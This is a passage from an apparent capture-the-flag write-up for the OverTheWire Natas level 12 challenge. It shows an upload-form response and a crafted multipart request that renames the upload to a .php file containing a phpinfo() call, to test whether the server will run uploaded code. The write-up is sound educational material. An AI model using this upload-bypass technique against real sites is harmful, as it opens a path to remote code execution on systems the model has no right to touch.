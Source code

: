 ```html
<div id="content">
The file <a href="upload/z2xt622p6y.txt">upload/z2xt622p6y.txt</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-03](/assets/images/otw-natas/natas12-03.png)

The next thing to wonder is if we can 'upload' a php file and execute it...

```html
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

shitsgoingdown.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php phpinfo(); ?>
-----------------------------58323604319210243021201378353--
```
